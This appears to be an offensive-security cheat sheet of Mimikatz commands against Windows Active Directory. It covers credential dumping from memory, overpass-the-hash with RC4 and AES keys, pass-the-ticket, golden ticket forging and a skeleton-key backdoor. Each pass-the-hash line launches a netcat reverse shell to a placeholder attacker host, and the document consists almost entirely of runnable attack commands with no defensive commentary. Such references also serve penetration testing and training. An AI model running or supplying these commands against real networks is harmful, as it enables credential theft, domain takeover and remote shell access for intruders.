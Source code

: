 ### Overpass-the-hash / Pass-the-Key

```console
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

#### RC4

```console
mimikatz # sekurlsa::pth /user:Administrator /domain:<DOMAIN> /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"C:\nc64.exe -e cmd.exe <LHOST> <LPORT>"
```

#### AES128

```console
mimikatz # sekurlsa::pth /user:Administrator /domain:<DOMAIN> /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"C:\nc64.exe -e cmd.exe <LHOST> <LPORT>"
```

#### AES256

```console
mimikatz # sekurlsa::pth /user:Administrator /domain:<DOMAIN> /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"C:\nc64.exe -e cmd.exe <LHOST> <LPORT>"
```

### Pass the Ticket

```cmd
C:\> .\mimikatz.exe
mimikatz # sekurlsa::tickets /export
mimikatz # kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
C:\> klist
C:\> dir \\<RHOST>\admin$
```

### Forging Golden Ticket

```cmd
C:\> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
mimikatz # misc::cmd
C:\> klist
C:\> dir \\<RHOST>\admin$
```

### Skeleton Key

```cmd
C:\> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # misc::skeleton
C:\> net use C:\\<RHOST>\admin$ /user:Administrator mimikatz
C:\> dir \\<RHOST>\c$ /user:<USERNAME> mimikatz
```
